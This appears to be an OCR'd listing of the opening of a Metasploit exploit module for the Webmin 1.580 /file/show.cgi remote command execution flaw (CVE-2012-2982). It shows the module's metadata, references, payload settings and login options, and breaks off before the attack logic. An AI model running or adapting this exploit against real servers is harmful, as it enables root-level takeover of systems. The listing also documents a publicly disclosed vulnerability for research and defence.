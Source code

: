 **The exploit script located at /usr/share/exploitdb/exploits/unix/remote/21851.rb**  

```ruby
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#   http://metasploit.com/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = ExcellentRanking

	include Msf::Exploit::Remote::HttpClient

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Webmin /file/show.cgi Remote Command Execution',
			'Description'    => %q{
					This module exploits an arbitrary command execution vulnerability in Webmin
				1.580. The vulnerability exists in the /file/show.cgi component and allows an
				authenticated user, with access to the File Manager Module, to execute arbitrary
				commands with root privileges. The module has been tested successfully with Webim
				1.580 over Ubuntu 10.04.
			},
			'Author'         => [
				'Unknown', # From American Information Security Group
				'juan vazquez' # Metasploit module
			],
			'License'        => MSF_LICENSE,
			'References'     =>
				[
					['OSVDB', '85248'],
					['BID', '55446'],
					['CVE', '2012-2982'],
					['URL', 'http://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf'],
					['URL', 'https://github.com/webmin/webmin/commit/1f1411fe7404ec3ac03e803cfa7e01515e71a213']
				],
			'Privileged'     => true,
			'Payload'        =>
				{
					'DisableNops' => true,
					'Space'       => 512,
					'Compat'      =>
						{
							'PayloadType' => 'cmd',
							'RequiredCmd' => 'generic perl bash telnet',
						}
				},
			'Platform'       => 'unix',
			'Arch'           => ARCH_CMD,
			'Targets'        => [[ 'Webim 1.580', { }]],
			'DisclosureDate' => 'Sep 06 2012',
			'DefaultTarget'  => 0))

			register_options(
				[
					Opt::RPORT(10000),
					OptBool.new('SSL', [true, 'Use SSL', true]),
					OptString.new('USERNAME',  [true, 'Webmin Username']),
					OptString.new('PASSWORD',  [true, 'Webmin Password'])
```